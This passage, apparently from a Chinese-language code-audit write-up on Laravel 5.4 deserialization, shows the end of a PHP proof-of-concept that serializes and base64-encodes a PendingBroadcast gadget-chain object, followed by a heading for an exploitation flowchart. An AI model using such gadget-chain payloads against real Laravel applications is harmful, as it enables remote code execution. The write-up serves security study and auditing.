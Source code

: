 ```php
        public function __construct()
        {
            $this->events = new ChannelManager();
        }
    }
    echo base64_encode(serialize(new PendingBroadcast()));
}
?>
```

<img src="./Laravel5.4 反序列化代码审计/poc-3-3.png" alt="">

### POC链利用流程图
